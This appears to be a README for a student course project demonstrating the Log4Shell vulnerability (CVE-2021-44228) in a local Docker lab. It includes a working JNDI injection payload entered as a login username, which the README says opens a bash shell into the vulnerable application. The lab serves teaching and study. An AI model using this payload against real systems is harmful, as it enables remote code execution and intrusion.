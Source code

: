 # CS4239 Group 6 Log4Shell Proof of Concept (PoC)  

This project is a modified version of this PoC: [Github Link](https://github.com/kozmer/log4j-shell-poc)
CVEs covered:
1. CVE-2021-44228  
2. CVE-2021-45046 (TBD)  

## Requirements
Needs a system with x86_64 (AKA amd64) chipset.
Needs the following software:
1. Docker  
2. docker-compose  

## Instructions to run PoCs  
### CVE-2021-44228\
1. `cd` into root directory of this repo  
2. Run "run_demo.sh" with `./run_demo.sh` in terminal. Keep this terminal open.  
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Revisit the terminal from earlier. A bash shell into the vulnerable application will now be open!
